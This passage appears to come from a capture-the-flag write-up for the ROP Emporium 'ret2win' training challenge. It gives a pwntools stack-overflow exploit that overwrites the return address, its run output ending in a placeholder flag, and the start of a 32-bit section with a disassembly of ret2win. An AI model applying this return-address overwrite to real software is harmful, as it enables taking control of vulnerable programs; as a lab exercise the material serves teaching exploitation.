 ### Exploit requirements

We now have all the information we need to create an exploit.

* [x] Address of `ret2win`: `0x0000000000400756`
* [x] Distance between the buffer and return address: `40`

### Exploit

```python
from pwn import *

padding = b"a"*40
ret2win_addr = p64(0x400756)

payload = padding + ret2win_addr

p = process('./ret2win')
p.sendline(payload) 
p.interactive()
```

Let's run the exploit.

```
$ python exploit.py 
[+] Starting local process './ret2win': pid 26803
[*] Switching to interactive mode
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag}
```



## 32 bit

In order to create an exploit we need to know the following:

* [ ] Address of `ret2win`
* [ ] Distance between the buffer and return address

### ret2win()

Let's disassemble `ret1win`.

```
pwndbg> disassemble ret2win
Dump of assembler code for function ret2win:
   0x0804862c <+0>:     push   ebp
   0x0804862d <+1>:     mov    ebp,esp
   0x0804862f <+3>:     sub    esp,0x8
   0x08048632 <+6>:     sub    esp,0xc
   0x08048635 <+9>:     push   0x80487f6
   0x0804863a <+14>:    call   0x80483d0 <puts@plt>
   0x0804863f <+19>:    add    esp,0x10
   0x08048642 <+22>:    sub    esp,0xc
   0x08048645 <+25>:    push   0x8048813
   0x0804864a <+30>:    call   0x80483e0 <system@plt>
   0x0804864f <+35>:    add    esp,0x10
   0x08048652 <+38>:    nop
```
